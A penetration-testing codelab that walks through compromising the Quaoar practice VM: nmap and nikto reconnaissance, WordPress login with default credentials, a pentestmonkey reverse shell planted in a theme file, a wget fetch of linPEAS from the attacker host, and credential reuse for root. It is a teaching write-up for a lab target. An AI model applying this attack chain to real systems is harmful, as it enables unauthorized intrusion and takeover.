In this codelab we'll learn some basic techniques for penetration testing. We have prepared a vulnerable machine on which we can perform our "testing" locally so that everything works as intended.
We have covered the basics of Kali Linux in the previous workshop, and so the only requirement is to download the target machine, QUAOAR and just follow the easy installation steps (for VirtualBox).
This is how the machine should look like so you know it is indeed working properly. 
We will start right of the bat with the network recoinassence. For that, we will use a tool called nmap. This will automatically find the open ports of our machine. See the image below on the command that we have used.

As we can tell from the nmap scan, there are a lot of interesting ports. Should we want to investigate further, a more comprehensive nmap command will surely provide some vital information:
# Nmap 7.80 scan initiated Wed Nov 11 19:24:25 2020 as: nmap -p- -A -oN nmap 192.168.1.45
Nmap scan report for Quaoar.home (192.168.1.45)
Host is up (0.00063s latency).
Not shown: 65526 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 5.9p1 Debian 5ubuntu1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 1024 d0:0a:61:d5:d0:3a:38:c2:67:c3:c3:42:8f:ae:ab:e5 (DSA)
| 2048 bc:e0:3b:ef:97:99:9a:8b:9e:96:cf:02:cd:f1:5e:dc (RSA)
|_ 256 8c:73:46:83:98:8f:0d:f7:f5:c8:e4:58:68:0f:80:75 (ECDSA)
53/tcp open domain ISC BIND 9.8.1-P1
| dns-nsid:
|_ bind.version: 9.8.1-P1
80/tcp open http Apache httpd 2.2.22 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_Hackers
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
110/tcp open pop3?
|_pop3-capabilities: SASL PIPELINING UIDL RESP-CODES TOP STLS CAPA
| ssl-cert: Subject: commonName=ubuntu/organizationName=Dovecot mail server
| Not valid before: 2016-10-07T04:32:43
|_Not valid after: 2026-10-07T04:32:43
|_ssl-date: 2020-11-11T18:27:11+00:00; -1s from scanner time.
139/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open imap Dovecot imapd
|_imap-capabilities: post-login listed LITERAL+ IMAP4rev1 have more IDLE OK SASL-IR ID ENABLE STARTTLS capabilities Pre-login LOGINDISABLEDA0001 LOGIN-REFERRALS
| ssl-cert: Subject: commonName=ubuntu/organizationName=Dovecot mail server
| Not valid before: 2016-10-07T04:32:43
|_Not valid after: 2026-10-07T04:32:43
|_ssl-date: 2020-11-11T18:27:11+00:00; -1s from scanner time.
445/tcp open netbios-ssn Samba smbd 3.6.3 (workgroup: WORKGROUP)
993/tcp open ssl/imap Dovecot imapd
|_imap-capabilities: post-login listed LITERAL+ IMAP4rev1 have AUTH=PLAINA0001 IDLE OK SASL-IR ID ENABLE more capabilities Pre-login LOGIN-REFERRALS
| ssl-cert: Subject: commonName=ubuntu/organizationName=Dovecot mail server
| Not valid before: 2016-10-07T04:32:43
|_Not valid after: 2026-10-07T04:32:43
|_ssl-date: 2020-11-11T18:27:11+00:00; -1s from scanner time.
995/tcp open ssl/pop3 Dovecot pop3d
|_pop3-capabilities: USER PIPELINING UIDL SASL(PLAIN) TOP RESP-CODES CAPA
| ssl-cert: Subject: commonName=ubuntu/organizationName=Dovecot mail server
| Not valid before: 2016-10-07T04:32:43
|_Not valid after: 2026-10-07T04:32:43
|_ssl-date: 2020-11-11T18:27:11+00:00; -1s from scanner time.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Host script results:
|_clock-skew: mean: 49m59s, deviation: 2h02m28s, median: -1s
|_nbstat: NetBIOS name: QUAOAR, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
| OS: Unix (Samba 3.6.3)
| Computer name: Quaoar
| NetBIOS computer name:
| Domain name: home
| FQDN: Quaoar.home
|_ System time: 2020-11-11T13:27:03-05:00
| smb-security-mode:
| account_used: guest
| authentication_level: user
| challenge_response: supported
|_ message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
As you can tell, there really are a lot of open ports; however, there is an interesting one for the keen eye. On port 80, nmap found that there is robots.txt which is, in fact, a really common way of "giving away" free Vulnerable machine hints. This would want to simulate the real-world scenario where you could find some paths which shouldn't normally be available and thus leak some server information.
To add something here, we can use another commonly used tool called nikto. Nikto is a web-application security tool which finds low-hanging fruits such as what technology is used on the web server, what kind of common directories it has, etc. Here you have the output of running nikto on our target.

Nikto found something interesting here, and to be more specific it tells us that the server has a Wordpress page running on it. Should have we visited robots.txt at first however, we would see that there we also have hinted that there is Wordpress installed.

If you did not know that already(hopefully you did), Wordpress is a free and open-source content management system written in PHP and paired with a MySQL or MariaDB database. Features include a plugin architecture and a template system, referred to within WordPress as Themes. (Wikipedia definition) 62% of CMS websites are built using it, and that only shows how often you will encounter this application while doing penetration testing(whether in real world or simply in CTF challenges).
After accesing the /wordpress path, we can see that there is a login form. Almost 30% of WordPress websites takeovers have been a result of default credentials that have not been reseted ever since installing WordPress. Thus, the first thing that you should always do when you encounter CMS's of any kind should be: 1) Looking up for default credentials and 2) Trying a combination of those credentials with other common credentials(such as admin/ admin , admin/password) etc.

In this case, admin/admin did the work and we can successfully login as a WordPress admin.

Here is the homepage of the Wordpress page from our target. We could poke around the settings and rest of the plugins, however it will be a waste of time. Now it is the time to find a way of connecting to the server itself, because Wordpress can execute code (for getting a reverse shell) if you know how to tell it to do so.
A quick search on our friend Google for Wordpress reverse shell will bring the following concludent results:

Following the guide from there, we inject the reverse shell code from pentest monkey into the 404.php file from the twenty fourteen theme as so:

After we adapted the ip and port to our attacking machine one's we can save click Update File. We can find our machine's ip as follows:

After that, we can use netcat to start listening for incoming connections(ofc i'll pick port 1337 for that)

Voilla! We are connected :) We will also use a little trick(I will post a link with more common used tricks in penetration testing, but for now just do as we show you :) )
python -c 'import pty; pty.spawn("/bin/bash")'
This will escape the current "bash jail" and allow us to execute commands from within the bash shell, just as we would normally do through the terminal/ connecting through the ssh.
Normally, after gaining foothold, one would start looking for ways to escalate their privileges within the system hierarchy, aiming for the root user. In our case, we can start with a trick, this would involve using an automated vulnerability scanner for local privilege escalation, called linPEAS(put a link to it here)
The easiest way of dragging the vulnerability scanner script is through http, and for that I create a simple http server with python :

And then grab the file from the target machine with wget http://192.168.1.122/linpeas.sh
After we have the file, we can run it and then investigate the results.

The first result will indicate a Kernel Exploit, however this would just be the simple path and you don't want that every time, so for this workshop we will just skip that way.

As we were searching for some interesting information in the output of linpeas, we find some mysql credentials. In this case, we see that the username and password would also match a Linux username and password, and if we tried connecting to the sudo user with su and using the password found by linpeas... surprise surprise:

We are root! Also get the flag.txt, which is usually what you would look for in this kind of pentesting challenges.